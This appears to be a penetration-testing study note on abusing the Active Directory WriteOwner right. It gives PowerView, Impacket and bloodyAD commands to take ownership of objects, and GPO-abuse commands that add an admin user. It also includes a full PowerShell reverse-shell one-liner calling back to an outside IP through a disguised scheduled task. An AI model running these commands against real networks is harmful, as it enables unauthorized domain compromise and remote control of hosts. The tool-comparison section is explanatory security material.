





---
tags:
  - cape
  - active-directory
  - dacl
---

# WriteOwner

**Ownership** give us the right to modify the object's permissions (DACL). Once we're owner, we can give ourselves `FullControl`, but we don’t automatically get it.

## Over a User

This permission has the ability to modify the owner of the user, i.e, give the [`Owns`](owns.md) permission, which can then being used to modify object security descriptors, regardless of permissions on the object's DACL.

### Windows


```powershell
# Create an object with the compromised account's credentials
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('mollysec\molly', $SecPassword)

# Set the ownership of the target object (PowerView)
Set-DomainObjectOwner -Credential $Cred -TargetIdentity "poppy" -OwnerIdentity "molly"
```


### Linux


```bash
impacket-owneredit -action write -new-owner molly -target poppy mollysec.local/molly:'Password123!'

bloodyAD -d mollysec.local --host 10.10.10.15 -u molly -p Password123! set owner poppy molly
```


## Over a GPO


The Policy needs to be updated after the modifications: `gpupdate /force`.


For subsequent exploitation steps check [`WriteDACL`](writedacl.md).

### Windows

From Windows [`SharpGPOAbuse`](https://github.com/FSecureLABS/SharpGPOAbuse) can be used to add a user into the `Administrators` group.


```powershell
./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount x7331 --GPOName "Default Domain Policy"
```


### Linux

[`pyGPOAbuse`](https://github.com/Hackndo/pyGPOAbuse) abuses this right by creating an **immediate scheduled task** as `SYSTEM`.


```bash
# Add an administrator user (john:H4x00r123..)
$ uv run pygpoabuse.py domain.local/x7331:Pass123! -gpo-id "31B2F340-016D-11D2-945F-00C04FB984F9"
[+] ScheduledTask TASK_69ed6112 created!

# Get a reverse shell
$ uv run pygpoabuse.py domain.local/x7331:Pass123! -gpo-id "31B2F340-016D-11D2-945F-00C04FB984F9" -powershell -command "\$client = New-Object System.Net.Sockets.TCPClient('192.168.45.241',80);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()" -taskname "Completely Legit Task" -description "Dis is legit, pliz no delete" -user
```


## Impacket vs BloodyAD

Both Impacket’s [`owneredit.py`](https://github.com/fortra/impacket/blob/master/examples/owneredit.py) script and BloodyAD’s [`set.py`](https://github.com/CravateRouge/bloodyAD/blob/main/bloodyAD/cli_modules/set.py) script go through a similar high-level process with some important differences.

Impacket requests and downloads the entire security descriptor blob of the target object:



BloodyAD is a bit more specific. Its last argument (`accesscontrol.OWNER_SECURITY_INFORMATION`) is is a flag (`0x1`) that extracts only the `Owner` part of the security descriptor:

<div align="left"></div>

The next step for both tools is modifying the `OwnerSid` in memory.&#x20;

Impacket uses the `write` method which takes the entire Security Descriptor object and changes just the owner part:

<div align="left"></div>

BloodyAD does the exact same thing as Impacket; it takes the Security Descriptor object it has in memory and changes the `OwnerSid` field to the new SID:

<div align="left"></div>

On the third and final step, both tools sent the replace request to the DC.

Impacket attempts to replace the entire Security Descriptor attribute of the target object. This might cause an issue when a low-privileged object attempts to change the whole Security Descriptor of another object owned by a high-privileged object (e.g. Domain Admins).

<div align="left"></div>

In contrast, BloodyAD sends the `controls` variable along the `MODIFY_REPLACE` request. The value [`1.2.840.113556.1.4.801`](https://oid-base.com/get/1.2.840.113556.1.4.801) is the OID for a Microsoft-specific LDAP control called [`LDAP_SERVER_SD_FLAGS_OID`](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/ldap/ldap-server-sd-flags-oid) which allows a client to specify which part(s) of a security descriptor an operation should apply to. In simple terms, BloodyAD attempts to explicitly modify only the `Owner` part of the Security Descriptor:

<div align="left"><figure><figcaption><p>set.py</p></figcaption></figure></div>
